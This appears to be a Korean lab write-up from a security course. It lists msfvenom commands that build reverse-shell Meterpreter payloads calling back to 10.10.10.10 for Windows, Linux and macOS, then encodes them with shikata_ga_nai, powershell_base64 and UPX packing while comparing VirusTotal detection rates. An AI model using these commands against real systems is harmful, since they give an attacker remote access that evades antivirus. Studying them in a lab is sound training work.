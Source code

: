 ```yaml
---
title: "시스템 보안 실습 3"
date: 2024-10-26
categories: [정보보안, 시스템 보안]
tags: [IT, Security, System]
---
```


## 페이로드

### - msfvenom 이용

![](assets/img/정보보안/실습/S_3-1.jpg)

### - virustotal로 탐지 검사

- 생성한 페이로드 파일을 업로드해서 탐지되는지 확인
  ![](assets/img/정보보안/실습/S_3-2.jpg)

### - 다양한 페이로드 생성 및 검사

1. 윈도우PC를 공격하기 위한 페이로드 파일(exe) 작성
   - 명령어 : msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1111 -f msi -o msi_payload.msi
   - 탐지 결과
     ![](assets/img/정보보안/실습/S_3-3.jpg)
2. 리눅스를 공격하기 위한 페이로드 파일(sh) 작성
   - 명령어 : msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=2222 -f elf -o sh_payload.elf
   - 탐지 결과
     ![](assets/img/정보보안/실습/S_3-4.jpg)
3. 맥OS를 공격하기 위한 페이로드 파일 작성
   - 명령어 : msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=3333 -f macho -o macho_payload.macho
   - 탐지 결과
     ![](assets/img/정보보안/실습/S_3-5.jpg)

---

## 인코딩

### - shikata_ga_nai

- 명령어 : msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1111 -f exe -e x86/shikata_ga_nai -i 5 -o encode5.exe
- 탐지 결과
  - 5번 수행
    ![](assets/img/정보보안/실습/S_3-6.jpg)
  - 20번 수행
    ![](assets/img/정보보안/실습/S_3-7.jpg)

### - powershell_base64

- 명령어 : msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1111 -f psh -e cmd/powershell_base64 -i 5 -o encode5.ps1
- 탐지 결과
  ![](assets/img/정보보안/실습/S_3-8.jpg)

### - Bad Characters 설정

- 특정 문자열을 제외하고 페이로드 생성
- 명령어 : msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1111 -f exe -e x86/shikata_ga_nai -i 20 -b '\x00\x0a\x0d' -o b_ecnoded.exe
- 탐지 결과
  ![](assets/img/정보보안/실습/S_3-9.jpg)

### - 여러 인코딩 방법 결합

![](assets/img/정보보안/실습/S_3-10.jpg)

- 탐지 결과
  ![](assets/img/정보보안/실습/S_3-11.jpg)

---

## 압축

### - upx

![](assets/img/정보보안/실습/S_3-12.jpg)

- 탐지 결과
  ![](assets/img/정보보안/실습/S_3-13.jpg)
  - 압축하기 전 위의 결과보다 탐지율이 조금 줄어든 것 확인 가능

